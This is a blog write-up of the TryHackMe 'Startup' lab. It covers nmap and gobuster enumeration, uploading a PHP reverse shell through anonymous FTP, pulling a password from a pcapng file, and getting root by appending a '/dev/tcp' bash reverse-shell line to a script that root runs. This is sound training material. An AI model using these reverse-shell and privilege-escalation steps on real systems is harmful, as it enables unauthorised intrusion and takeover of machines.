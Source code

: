 ```yaml
---
layout: post
title: Tryhackme - Startup
date: 2020-11-19 19:00:00 +0000
category: [Tryhackme, Easy]
tags: [thm,reverse-shell,easy,file-upload]
---
```


---
<p>Startup is a Tryhackme room which is focused on file-upload vulnerability. The final objective is to get the user and the root flag</p>
<br>
![cover_image](/assets/img/tryhackme/startup/1.png)

**Author** | r1gormort1s
**Description** | Abuse traditional vulnerabilities via untraditional means

<p>Deploy the VM and let's go.</p>

## <ins>Finding the secret recipe</ins>
---
First up is enumeration.
<br>
<pre>nmap -T4 -sV -sC -vv --min-rate=100000 10.10.10.208</pre>
<br>
![nmap_scan](/assets/img/tryhackme/startup/nmap_scan.png)
<br>
From the nmap scan we can see that Anonymous login is allowed in ftp service.
<br>
![ftp_login](/assets/img/tryhackme/startup/3.png)
<br>
I saw two files and a folder. The text file is just a message and there was no information in the image. Even inside the folder there was nothing...I was like.."then why is the ftp service even open".

Then I tried enumerating the http service and found this in the source page.
<br>
![home_page_comment](/assets/img/tryhackme/startup/2.png)
<br>
It didn't make any sense so, I used gobuster to bruteforce the directories.
<br>
![gobuster](/assets/img/tryhackme/startup/4.png)
<br>
![hint](/assets/img/tryhackme/startup/5.png)
<br>
I saw the hint and found that the dir is the same as the folder in ftp service.
<br>
![ftp_http](/assets/img/tryhackme/startup/8.png)
<br>
Get a copy of php reverse shell and change the ip and the port values. In Kali linux the php reverse shell can be found in the location ```/usr/share/webshells/php/php-reverse-shell.php```
<br>
![reverse_shell](/assets/img/tryhackme/startup/6.png)

<br>
So, I logged into the ftp service again and uploaded the php reverse shell in the /ftp directory.
<br>
<pre>put file-name</pre>
<br>
![upload](/assets/img/tryhackme/startup/7.png)
<br>
If you go to the /ftp directory in the webpage you can see the reverse shell.
<br>
![reverse_shell_page](/assets/img/tryhackme/startup/9.png)

Open a netcat listener and click on the reverse shell.
<br>
![shell](/assets/img/tryhackme/startup/10.png)
<br>

The answer to the first question can be found in the text file located in the root("/") directory.
<br>
![recipe](/assets/img/tryhackme/startup/11.png)
<br>

## <ins>User flag</ins>
---
Use the find command to get more information about the files that can be much use.
<br>
<pre>find / -user www-data 2>/dev/null</pre>
<br>
![find1](/assets/img/tryhackme/startup/12.png)
<br>
Go to the folder and download the file by running this on the remote machine
<br>
<pre>python -m SimpleHTTPServer 8080</pre>
<br>
And this on the local machine
<br>
<pre>wget http://remote-machine-ip:8080/file-name.pcapng</pre>
<br>

In this file, I found the password for the username **lennie**.
<br>
<pre> strings file-name.pcapng</pre>
<br>
![passwd_lennie](/assets/img/tryhackme/startup/13.png)
<br>
Log in with the username lennie using ```su lennie```

We can get the user flag from the home directoy of lennie
<br>
![user_flag](/assets/img/tryhackme/startup/14.png)
<br>

## <ins>Root flag</ins>
---
I found nothing useful in the directory ```/Documents```.
But inside the /scripts directory I saw a interesting file.
<br>
![planner_script](/assets/img/tryhackme/startup/15.png)
<br>

From the image we can see that the file is owned by root and it executes another file. This file is owned by lennie.
<br>
![print_script](/assets/img/tryhackme/startup/16.png)

So, it seems that ```planner.sh``` (which cannot be edited by lennie) runs ```print.sh``` (which can be edited by lennie). So root shell can be obtained by editing the print.sh file.

Append the reverse shell payload into the print.sh file
<br>
<pre> echo "bash -i /dev/tcp/your-vpn-ip-addr/4444 0>&1" >> /etc/print.sh</pre>
<br>

Open a netcat listener in your local machine and execute the planner script using ```sudo ~/scripts/planner.sh```

<br>
![root_flag](/assets/img/tryhackme/startup/17.png)
<br>

There we go!!! Root flag obtained.

That's it folks. Happy Hacking!!!
